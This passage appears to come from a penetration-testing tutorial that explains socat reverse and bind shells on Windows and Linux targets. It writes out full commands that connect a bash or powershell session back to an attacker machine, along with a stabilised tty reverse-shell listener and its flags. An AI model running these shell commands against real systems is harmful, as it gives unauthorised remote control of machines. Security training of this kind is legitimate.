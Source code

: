 On Windows we would use this command to connect back:

socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target:

socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"

Bind Shells

On a Linux target we would use the following command:

socat TCP-L:<PORT> EXEC:"bash -li"

On a Windows target we would use this command for our listener:

socat TCP-L:<PORT> EXEC:powershell.exe,pipes

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

socat TCP:<TARGET-IP>:<TARGET-PORT> -

Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell. This will only work when the target is Linux, but is significantly more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax:

socat TCP-L:<port> FILE:`tty`,raw,echo=0

Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are allocating a new tty, and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, stty raw -echo; fg trick with a netcat shell -- with the added bonus of being immediately stable and allocating a full tty.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a precompiled socat binary, which can then be executed as normal.

The special command is as follows:

socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane

This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  EXEC:"bash -li". We're also passing the arguments: pty, stderr, sigint, setsid and sane:

    pty, allocates a pseudoterminal on the target -- part of the stabilisation process
    stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
    sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
    setsid, creates the process in a new session
    sane, stabilises the terminal, attempting to "normalise" it.
